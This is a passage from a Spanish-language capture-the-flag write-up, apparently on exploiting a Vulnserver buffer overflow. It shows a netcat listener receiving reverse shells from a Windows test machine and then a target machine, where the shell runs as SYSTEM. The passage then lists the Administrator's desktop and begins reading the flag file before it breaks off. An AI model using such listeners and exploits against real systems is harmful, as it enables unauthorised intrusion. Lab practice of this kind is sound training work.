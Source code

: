 Observa la **netcat**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Mi_IP] from (UNKNOWN) [IP_maquina_virtual_Windows] 49255
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\berserkw\Desktop\Vulnserver>whoami
whoami
berserkw-pc\berserkw
```
Genial, funciono correctamente.

Podemos decir que hemos hecho una prueba exitosa de **Buffer Overflow**.

Ya solo ejecutemos el Exploit contra la máquina víctima y observa a donde nos manda:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.100] 49158
Microsoft Windows [Versi�n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.
.
C:\Users\Administrador\Desktop>whoami
whoami
nt authority\system
```
Resulta que el **Administrador** era quien estaba ejecutando el binario.

Ya solo tenemos que buscar las flags.

Veamos primero la del **Administrador**:

```batch
C:\Users\Administrador\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 640F-86BF

 Directorio de C:\Users\Administrador\Desktop

21/07/2024  18:46    <DIR>          .
21/07/2024  18:46    <DIR>          ..
21/07/2024  18:00             1.646 essfunc.c
21/07/2024  18:00            16.601 essfunc.dll
21/07/2024  18:46                36 root.txt
21/07/2024  18:00             9.033 vulnserver.c
21/07/2024  17:59            29.624 vulnserver.exe
               5 archivos         56.940 bytes
               2 dirs  16.631.238.656 bytes libres

C:\Users\Administrador\Desktop>type root.txt
type root.txt
...
```
